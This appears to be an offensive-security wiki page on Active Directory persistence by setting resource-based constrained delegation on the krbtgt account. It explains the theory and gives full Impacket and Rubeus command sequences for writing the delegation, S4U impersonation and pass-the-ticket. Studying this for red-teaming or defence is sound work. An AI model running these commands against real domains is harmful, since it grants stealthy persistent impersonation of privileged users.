 # RBCD to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../movement/domain-settings/machineaccountquota.md)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. Since a TGT is just a service ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work ([not mandatory though](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../movement/kerberos/ptt.md) to use the TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Every step of this attack can be achieved using one of the following scripts from Impacket : rbcd.py and getST.py.

{% code overflow="wrap" %}
```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
Every step of this attack can be achieved using Rubeus and the Set-ADUser command.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
<strong>Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash
</strong>
# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence" %}

{% embed url="https://skyblue.team/posts/delegate-krbtgt/" %}

{% content-ref url="../movement/kerberos/delegations/rbcd.md" %}
[rbcd.md](../movement/kerberos/delegations/rbcd.md)
{% endcontent-ref %}
